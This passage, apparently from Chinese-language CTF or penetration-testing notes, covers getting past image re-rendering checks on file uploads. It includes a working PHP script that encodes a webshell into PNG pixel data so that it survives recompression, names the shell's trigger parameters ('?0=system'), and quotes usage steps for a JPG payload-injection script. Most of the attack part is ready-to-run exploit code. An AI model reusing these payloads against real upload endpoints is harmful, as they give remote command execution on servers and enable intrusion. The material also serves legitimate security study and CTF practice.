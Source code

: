 


### **5. 二次渲染**
形如：/download.php?image=e04b7fb2d790bed075a90916ecd43ff1.png
download.php里文件包含image的上传的图片路径，但是后端使用了图片文件头校验并对上传的图片进行二次压缩，裁剪等渲染。
如php函数: imgecreatefromgif($upload);
处理后图片中尾部的php木马可能失效：直接图片马的php代码一般在底部会被压缩掉。
>vscode看文件的16进制格式插件：hexeditor,我的快捷键x+e
   浏览器看图片源码:view-source: xxx.png


解决：在图片中部插入php脚本
1. 自己写入 https://xz.aliyun.com/t/2657
2. 用别人写入好的图片和密码 ,注意区分png、jpg格式
png
```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./7.png');
?>
//<?=$_GET[0]($_POST[1]);?>
//?0=system
```
jpg
```
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
```